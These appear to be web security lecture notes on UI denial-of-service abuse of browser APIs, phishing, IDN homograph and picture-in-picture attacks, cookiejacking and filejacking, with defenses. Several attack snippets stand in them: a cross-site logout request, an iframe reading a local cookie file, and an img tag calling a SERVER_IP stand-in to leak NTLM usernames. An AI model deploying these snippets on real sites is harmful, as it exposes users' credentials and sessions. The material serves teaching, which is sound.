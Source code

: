 ### Denial-of-service, Phishing, Side Channels

### UI Denial-of-service attacks
- Override browser defaults: disorient or trap the user on site
- Scareware: sites which intimidate the user into buying a product by trapping them on an unwanted site
- Annoy the user: harmless fun, can be disruptive, cause users to lose unsaved work

|API Level | Restrictions | Examples |
|-----------|--------------|-------------|
| Level 0 | No restrictions. API can be used immediately and indiscriminately.|DOM, CSS, window.move(), file download, hide mouse cursor|
| Level 1 | User interaction required. API cannot be used except in response to a “user activation” (e.g. click, keypress).|Element.requestFullscreen(), navigator.vibrate(), copy text to clipboard, speech synthesis API, window.open()|
| Level 2 | User “engagement” required. API can- not be used until user demonstrates high engagement with a website.|Autoplay sound, prompt to install website to homescreen|
| Level 3 | User permission required. API cannot be used until user grants explicit permission.|Camera, microphone, geolocation, USB, MIDI device access|


### Weird Things you can do with Browser API
- Classic infinite alert loop
    - Defenses:
        - Goal: Browsers want to give users a way to break out of infinite alert loops without needing to quit their browser
        - Initial solution: Browsers added a checkbox on alert modal to stop further alerts
        - Current solution: Browsers are multiprocess now, so if a tab wants to go into an infinite loop that doesn't prevent the tab's close button from working. Just let the site infinitely loop as long as the user can close the misbehaving tab
- window.open()
- win.moveTo(10, 10)
- win.resizeTo(200, 200)
- Intercept all user-initiated events
- Open child window
- Focus all windows on click
- Bounce window off the screen edges
- Play random video in the window
- Show a modal to prevent window close
- Disable the back button
- Fill the history with extra entries
- Copy spam to clipboard
- Register protocol handlers
- Request camera and mic
- Start vibrate interval
- Start a picture-in-picture video
- Hide the cursor
- Trigger a file download
- Fullscreen browser
- Log user out of popular sites
    - 'Google': ['GET', 'https://www.google.com/accounts/Logout'], // works!
- Do embarrassing searches 
- Tabnabbing[^tab]
    - Tabnabbing defenses
        - Add rel='noopener' to all links with target='_blank' to prevent this attack
        - The opened site's window.opener will be null
        - New HTTP header: Cross-Origin-Opener-Policy: same-origin
        - Browsers will use a separate OS process to load the site
        - Prevent cross-window attacks (window.opener, usage of postMessage) and process side-channel attacks by severing references to other browsing contexts

### What should a web browser be?
- Simple document viewer or powerful app platform?
    - There's a inherent tension between the two goals
    - Need to give developers powerful features without letting the bad ones be user-hostile (i.e. fingerprinting, phishing)

### Phishing
- Acting like a reputable entity to trick the user into divulging sensitive information such as login credentials or account information
- Often easier than attacking the security of a system directly
    - Just get the user to tell you their password

### Internationalized Domain Names (IDN)
- Hostnames containing Unicode characters are transcoded to subset of ASCII consisting of letters, digits, and hyphens called punycode
- Punycode is a representation of Unicode with the limited ASCII character subset used for Internet host names
- Allows registering domains with foreign characters!
    - münchen.example.com→xn--mnchen-3ya.example.com
    - Ꭸ.co→xn--s7y.co

### What's going on?
- Many Unicode characters are difficult to distinguish from common ASCII characters
- Can you spot the difference?
    - аpple.com vs. apple.com
- If you convert all hostnames to punycode, then it becomes obvious
    - аpple.com→xn--pple-43d.com

### IDN homograph attack
- Akin to "domain typosquatting"
    - Use similar-looking name to an established domain to fool a user
- Handwriting has this issue too
    - See etymology of the word "zenith". The translation from the Arabic "samt" (direction) included the scribe's confusing of "m" into "ni"
- Some typefaces still have the issue ("rn" vs. "m" vs. "rri")

### IDN homograph attack defenses
- Solution: Punycode will show if domain contains characters from multiple different languages
- Workaround: Replace every character with a lookalike from a single foreign language
    - аррӏе.com→xn--80ak6aa92e.com
- Updated solution: Show punycode when entire domain is made of lookalike characters and the top-level-domain is not IDN itself.
- Won't fool a password manager!

### Picture-in-picture attack
- Show a picture of a browser window with trust indicators for the victim website within the attacker page
- "We found that picture-in-picture attacks showing a fake browser window were as effective as the best other phishing technique, the homograph attack. Extended validation did not help users identify either attack"1

### User defenses against phishing
- Use a password manager
- Password manager won't be fooled by IDN homograph attack
- Use a hardware security key

### Cookiejacking
- Famous example affected IE in 2011.
`<iframe src="file://C:/Users/%user%/AppData/Roaming/Microsoft/Windows/Cookies/%user%@google[1].txt">`
- Use clickjacking technique to perform "content extraction" using Drag-and-Drop
- Learn Windows username by adding `<img src="\\SERVER_IP\img.jpg">` to page, wait for NTLM (New Technology LAN Manager) protocol to send username in the clear to SERVER_IP
- Select the whole cookie text with mousedown using two nested iframes

### Filejacking
- Make users think that a file upload dialog is actually a file download dialog
- Get them to upload the entire contents of a folder to your server

### User interface security
- "UI security attacks ... are fundamentally attacks on human perception"
- Core problem: Browser allows untrusted sites to put content in a place where the user looks to make trust decisions

### Google Safe Browsing

- Google maintains a list of known malware/phishing URLs
- Idea: Browser queries the list on every navigation
    - Would send real-time browsing history to Google
- Idea: Download full list of URLs to browser
    - Would be huge, and it's constantly changing
- Idea: Do something smarter?


### Further Reading

theannoyingsite.com

https://testsafebrowsing.appspot.com/

https://arxiv.org/pdf/1708.08510.pdf

https://www.xudongz.com/blog/2017/idn-phishing/

http://www.smbc-comics.com/index.php?db=comics&id=2526

https://sites.google.com/site/tentacoloviola/cookiejacking

https://www.usenix.org/system/files/conference/usenixsecurity13/sec13-paper_akhawe.pdf

http://www.sectheory.com/clickjacking.htm

https://www.adambarth.com/papers/2009/barth-weinberger-song.pdf

[^tab]:https://en.wikipedia.org/wiki/Tabnabbing
